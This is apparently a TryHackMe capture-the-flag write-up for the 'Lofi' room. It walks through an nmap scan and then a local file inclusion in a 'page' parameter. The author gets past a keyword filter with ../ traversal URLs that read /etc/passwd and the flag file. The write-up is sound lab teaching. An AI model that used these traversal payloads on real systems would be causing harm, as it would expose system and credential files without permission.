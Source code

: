 ```yaml
---
title: 'Lofi — Writeup'
author: n0l1v3sm4tt3r
categories: [THM]
tags: [web, lfi]
media_subpath: /images/thm-lofi/
image:
  path: thm-lofi.png
---
```


> **Room:** https://tryhackme.com/room/lofi  
> **Difficulty:** Easy

---

## Table of Contents

1. [Introduction](#introduction)  
2. [Recon / Basic Enumeration](#recon--basic-enumeration)  
3. [Exploring web page](#exploring-web-page)  
4. [Exploiting LFI](#exploiting-lfi)  
5. [Reading the Flag](#reading-the-flag)  

---

## Introduction

**Machine Info:**

- **Name:** Lofi  
- **Source:** TryHackMe — room `lofi`  
- **Difficulty:** Easy  

---

## Recon / Basic Enumeration

### Nmap Scan

```bash
mkdir -p nmap;nmap -A -T5 -Pn 10.10.101.21 -p- -oN nmap/total.txt
````

**Results:**

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 (Ubuntu)
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 
```

**Open Ports:**

| Port | Service                              |
| ---- | ------------------------------------ |
| 22   | SSH                                  |
| 80   | HTTP                                 

---

## Exploring web page

Visiting the web page shows a minimalistic interface with a few links like “Relax”, “Focus”, etc.

![Main page](main-page.png)

Clicking **Relax** redirects to:

```
http://10.10.101.21/?page=relax.php
```

This suggests the site dynamically loads pages based on the `page` parameter.

Trying to include a system file directly:

```
http://10.10.101.21/?page=/etc/passwd
```

returns the following message:

> **HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!**

![Hacker detected message](hacker.png)

So, there’s a simple input validation or keyword blacklist blocking absolute paths like `/etc/passwd`.

---

## Exploiting LFI

To bypass this filter, use **directory traversal sequences** (`../`) to go up in the filesystem tree.

Try this payload:

```
http://10.10.101.21/?page=../../../../../../../etc/passwd
```

The file loads successfully, confirming a **Local File Inclusion** vulnerability.

![/etc/passwd disclosure](passwd.png)

> **Explanation:**
> The `../` traversal moves the include path upward in the filesystem until it reaches the root directory, where `/etc/passwd` resides.
> The application then includes the file content in the web page response.

---

## Reading the Flag

Once the LFI is confirmed, the next step is to retrieve the flag file.
Typically, challenge flags are stored in the root directory (`/flag.txt`).

So, we try:

```
http://10.10.101.21/?page=../../../../../../../flag.txt
```

![Flag disclosure](flag.png)

The page returns the contents of `flag.txt`, completing the challenge.

---